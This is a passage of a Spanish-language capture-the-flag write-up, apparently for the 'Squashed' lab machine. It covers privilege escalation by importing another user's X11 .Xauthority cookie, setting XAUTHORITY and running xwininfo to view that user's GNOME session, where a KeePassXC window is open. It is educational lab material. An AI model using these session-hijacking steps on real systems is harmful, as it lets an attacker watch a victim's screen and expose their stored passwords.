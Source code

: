 # Root.txt

## X11 Explanation
Para escalar privilegios usaremos la cookie `.Xauthority` para poder ver la pantalla del propietario de esta cookie. Puedes visitar [Pentesting X11 - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11){:target="_blank"}{:rel="noopener nofollow"} para ver más sobre la explotación de este servicio.

Pero antes, ¿qué es `X11`?
> El Sistema de Ventanas X (también llamado X11 o simplemente X) es un marco básico para construir interfaces gráficas de usuario en OpenVMS y similar a Unix.

Este protocolo permite la interacción gráfica entre usuarios en una red. Esto significa que, como tenemos la cookie de `ross` podremos ver su pantalla, si es que está conectada con una interfaz de escritorio. 
Esto lo podemos saber con el comando `w`:
```bash
alex@squashed:/var/www/html$ w
 20:42:46 up 27 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               20:15   27:14   3.16s  0.05s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

`ross` está conectada y está ejecutando el binario `gnome-session-binary`, el cual inicia un entorno gráfico de escritorio GNOME, en el display `:0`.

## Impersonation via .Xauthority file 
Para poder impersonar a `ross` con su cookie de sesión, tenemos que importar a la máquina para que el usuario `alex` (con el que tenemos acceso) pueda usarla:

![image](https://github.com/z3rObyte/z3rObyte.github.io/assets/67548295/c54e75d5-cdbb-4cc2-86db-0678139e1f9b)

Para poder usar la cookie, como ultimo paso nos queda declarar una **variable de entorno** con la ruta hacia el archivo de la cookie, de esta manera:
```bash
alex@squashed:/home/alex$ export XAUTHORITY=/home/alex/.Xauthority
```

Ahora, podemos verificar que hicimos todo bien ejecutando este comando: `xwininfo -root -tree -display :0`. Deberíamos de ver información sobre la sesión de `ross`:
```bash
alex@squashed:/home/alex$ xwininfo -root -tree -display :0           

xwininfo: Window id: 0x533 (the root window) (has no name)

  Root window id: 0x533 (the root window) (has no name)
  Parent window id: 0x0 (none)
     26 children:
     0x80000b "gnome-shell": ("gnome-shell" "Gnome-shell")  1x1+-200+-200  +-200+-200
        1 child:
        0x80000c (has no name): ()  1x1+-1+-1  +-201+-201
     0x800021 (has no name): ()  802x575+-1+26  +-1+26
        1 child:
        0x2000006 "Passwords - KeePassXC": ("keepassxc" "keepassxc")  800x536+1+38  +0+64

[...] 
```
